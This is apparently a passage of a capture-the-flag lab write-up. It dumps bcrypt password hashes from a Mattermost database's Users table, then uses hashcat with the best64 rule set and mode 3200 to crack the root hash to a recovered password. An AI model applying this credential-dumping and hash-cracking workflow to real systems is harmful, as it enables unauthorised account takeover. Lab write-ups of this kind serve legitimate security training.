 ```
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
(..... there are 46 .....)
| Users                  |
+------------------------+

> describe Users; (there are more fields [25])
+--------------------+--------------+------+-----+---------+-------+
| Field              | Type         | Null | Key | Default | Extra |
+--------------------+--------------+------+-----+---------+-------+
| Username           | varchar(64)  | YES  | UNI | NULL    |       |
| Password           | varchar(128) | YES  |     | NULL    |       |
| Nickname           | varchar(64)  | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+

> Select Username, Password, Nickname from Users;
+----------------------------------+--------------------------------------------------------------+----------+
| Username                         | Password                                                     | Nickname |
+----------------------------------+--------------------------------------------------------------+----------+
| surveybot                        |                                                              |          |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |          |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |          |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |          |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |          |
| channelexport                    |                                                              |          |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |          |
+----------------------------------+--------------------------------------------------------------+----------+
```

Lets crack the root password !!<br>
Recalling the messages we saw when opening the mattermost messaging server (before user), we should use hashcat to crack the hash found using the <b>RockYou</b> to check variants based on the <b>PleaseSubscribe!</b> <br>


```
(create hash file with the hash)
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

(generate the new wordlist with the rules)
cmd: hashcat -r /usr/share/hashcat/rules/best64.rule --stdout hash_rule > words

(checked the hash type online, check the mode for the hashcat)
cmd: hashcat --help | grep bcrypt  
> 3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System

(decrypt it)
cmd: hashcat -a 0 -m 3200 hash words
> $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21

```
